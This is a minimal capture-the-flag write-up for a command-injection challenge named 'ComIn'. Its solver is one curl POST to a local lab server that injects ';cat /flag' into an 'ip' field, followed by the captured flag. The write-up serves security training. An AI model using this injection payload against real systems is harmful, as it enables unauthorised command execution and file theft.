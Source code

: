 # ComIn

# Description

# Solver 
```curl http://127.0.0.1:15004/index.php -X POST --data "ip=;cat /flag"```

# Flag
`agrihack{c0mm4nd_1nj3ct10n_1s_34sy_d3kkk}`
